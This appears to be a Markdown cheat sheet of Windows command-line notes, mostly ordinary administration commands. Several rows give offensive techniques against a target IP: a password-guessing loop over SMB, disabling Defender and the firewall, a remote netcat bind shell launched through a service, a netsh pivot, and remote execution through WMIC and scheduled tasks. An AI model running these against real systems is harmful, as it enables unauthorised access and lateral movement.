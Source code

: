 ```yaml
---
title: Windows Commands
category: Misc
order: 4
---
```


>**Accounts and Privileges**

Topic | Command
------------- | -------------
Lauch with Admin Privs | ctrl+shift+enter 
SID | S-[revision level]-[authority level]-[domain/computer]-RID
Admin RID | 500
Guest RID | 501 
Users RID | 1001 and up
Add or Remove a User | net user [username] [password] /add or /del <br> termservice, telnet
Add or Remove user to a group | net localgroup [group] [username] /add or /del <br> Examples: <br> Remote Desktop Users, TelnetClients, Administrators
List Local Users | net user
List Groups | net localgroup
List Administrators | net localgroup administrators 
List Account Policy | net accounts or net accounts /domain
Password Guess | for /f %i in 9password.lst) do @echo %i & @net use \\[tartet_IP_addr] %i /u:[UserName] 2>nul && echo [UserName]: %i >> success.txt
Run Progarm as another user | runas /u:fred "cmd /c echo Hello!", runas /smartcard "cmd /c echo Hello!"

>**Antivirus**

Topic | Command
------------- | -------------
Turn off Windows Defender | control /name Microsoft.WindowsDefender
Turn off Smart Screen | control /name Microsoft.ActionCenter

>**Inventory, File Search, and Counting**

Topic | Command
------------- | -------------
Count Lines | <code> type "file" | find /c /v "" </code>
Inventory Software | "dir /s ""c:\Program Files"" > inventory.txt <br> dir /s ""c:\Program Files (x86)"" >> inventory.txt" 
Display File Contents | type [file], type *.[ext], type [file1] [file2]
Search in FIle | <code> type [file] | find /i "[string]", type [file] | findstr [regex] </code>
See Environment Variables | set, set [variable_name] <br> Example: username, path
Search for File | dir /b /s [directory]\[file]  (use ^ to escape spaces) <br> Example: dir /b /s %systemroot%\hosts
Read Registry Key | reg query [keyName] 
Change Registry Key | reg add [KeyName] /v [ValueName] /t [type] /d [data]
Export Registry Keys | reg export [keyName] [filename.reg] 
Import Registry Keys | reg import [filename.reg]
Find a String  | find "[string]", findstr [regex]

>**Inventory, File Search, and Counting**

Topic | Command
------------- | -------------
Network Activity | <code> netstat -na | find ":[port]"</code> 
DNS cahce | <code> ipconfig /displaydns </code>
Turn firewall off | <code> netsh advfirewall set allprofiles state off </code>
Firewall Rule | <code> netsh advfirewall firewall add rule name="[name]" <br> dir=in action=allow remoteip=[yourIPaddress] protocol=TCP localport=[port number] <br> Example: 3389, 23 </code>
Delete Firewall Rule | <code> netsh advfirewall firewall del rule name="[name]" 
Disable Firewall | <code> netsh advfirewall set allprofiles state off 
Firewall Rule Registry | <code> reg add HKLM\ SYSTEM\ CurrentControlSet\ Services\ SharedAccess\ Parameters\ FirewallPolicy\ StandardProfile\ GloballyOpenPorts\ List /V 2000:TCP /T REG_SZ /F /D "2000:TCP:*:Enabled" 
View Firewall Configuration | netsh advfirewall show allprofiles 
Ping Sweep | <code> for /L %i in (1, 1, 255) do @ping -n 1 192.168.2.%i | find "TTL" </code>
DNS Lookup | <code> for /L %i in (1, 1, 255) do @echo 10.10.10.%i & nslookup 10.10.10.%i  2>nul | find "Name" </code>
 Netsh pivot | <code> netsh interface portproxy add v4tov4 listenport=<LPORT> listenaddress=0.0.0.0 connectport=[RPORT] connectaddress=[RHOST] </code>

>**Process and Services**

Topic | Command
------------- | -------------
Install a service | <code> "pkgmgr /iu:""[servicename]"" <br> dism /online /Enable-Features /FeatureName:TelnetServer" </code>
List Running Services | <code> sc query </code>
List All Services | <code> sc query state= all </code>
List Remote Services  | <code> sc \\[targetIP] query </code>
Check status of service | <code> sc query [service name] </code>
Start/Stop a service | <code> sc start/stop [service name] </code>
Change Startup type of service | <code> sc config [servicename] start= demand (termservice, telnet) </code>
Delete Service | <code> sc delete [service name] </code>
List Processes | <code> tasklist </code>
Kill a Process | <code> taskkill /PID [process_ID] </code>

>**Remote Access, SMB, and WMIC**

See Current Privileges | <code> whoami </code>
Windows null session | <code> net use \\targetip "" /u:"" </code> 
Establish an SMB session | <code> net use \\[targetIP] [password] /u:[user] </code>
Mount a Share on Target | <code> net use * \\[targetIP]\[share] [password] /u:[user] <br> net use * \\[targetIP]\[share] [password] /u:[MachineName_or_Domain]\[user] </code>
Dropping SMB Session | <code> "net use \\[targetIP] /del <br> net use * /del" </code>
Run a Remote Command | <code> sc \\[targetIP] create netcat binpath= "cmd.exe /k c:\tools\nc.exe -L -p cmd.exe </code> 
Turn on Remote Desktop / terminal services | <code> reg add "hklm\ system\ currentcontrolset\ control\ terminal server" /v fdenysconnetions /t reg_dword /d 0 </code>
Remote Registry  | <code> Put \\[MachineName] before [KeyName] </code> 
WMIC Invoke Porgram | <code> wmic /node:[targetIP] /user:[admin_user] /password:[password] process call create [command] </code>
WMIC on Multiple Machines | <code> /node:@[filename] - run a command on multiple machines listed in a file </code> 
WMIC Service Query | <code> wmic services where (displayname like "%[whatever]%") get name </code> 
WMIC List Processes | <code> wmic /node:[targetIP] /user:[admin_user] /password:[password] process list brief </code> 
WMIC Kill Processes | wmic /node:[targetIP] /user:[admin_user] /password:[password] process where name="[name]" delete or processID="[PID]" delete </code>
WMIC Monitor Process | <code> wmic process where name="[name]" list brief /every:1 | "nc.exe" </code>
at (windows 7 and lower)(all commands at SYSTEM) | <code> "net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> *sc \\[targetIP] start schedule* <br> at [\\targetIP] [HH:MM] [A|P] [command] <br> at \\[machine] [time] cmd /c ""[command]"" <br> at \\[targetIP} (*check status*)" </code> 

schtasksStart time <br> <i> HH:MM:SSFrequency: MINUTE, HOURLY, DAILY, ONCE, ONSTART, ONLOGON, ONIDLE </i> | <code> net use \\[targetIP] [password] /u:[admin_user] <br> sc \\[targetIP] query schedule (*make sure it is running*) <br> *sc \\[targetIP] start schedule*
<br> schtasks /creat /tn [taskname] /s [targetIP] /u [user] /p [password] /sc [frequency]  /st [starttime] /sd [startdate] /tr [command]
<br> schtasks /query /s [targetIP] </code> 
Simple Windows IIS Express Server | <code> C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\tools /port:8001 </code> 


>**Scripting and Shell**

Navigate History | <code> F7  Scripting and Shell </code> 
For Loops | <code> "for /L %i in ([start], [step], [stop]) do [command]) </code> 
*note: step of zero runs forever" | for /L %i in (1, 1, 255) do echo %i
For Loops Iterate | for /F ["options"] %i in ([stuff]) do [command] 
Pause/Break | timeout /t 4 /nobreak 
Turn off command echo | @ | for /L %i in (1, 1, 255) do @echo %i
Multiple Commands | & | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak
Multiple Successful Commands | && 
Throw Away Output | >nul | for /L %i in (1, 1, 255) do @echo %i & timeout /t 4 /nobreak > null
Print Blank Line or Beap | echo., echo CTRL-G 
CR/LF (0d0a) | Windows use CR/LF as EOF characters. 

